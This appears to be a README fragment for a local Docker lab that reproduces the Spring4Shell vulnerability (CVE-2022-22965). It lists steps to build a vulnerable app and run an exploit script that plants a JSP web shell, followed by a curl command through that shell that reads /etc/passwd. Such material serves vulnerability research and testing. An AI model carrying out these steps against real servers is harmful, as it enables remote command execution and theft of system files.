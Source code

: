 1. mvn clean package
2. docker build . -t cve-2022-22965-exploit
3. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-exploit
4. curl http://localhost:8080/exploit/greeting
5. python3 -m pip install -r requirements.txt
6. python3 exploit.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="cmd"
7. curl "http://localhost:8080/cmd.jsp?cmd=cat%20/etc/passwd"

docker build . -t cve-2022-22965-exploit -f bypassing-using-reflection-abuse/Dockerfile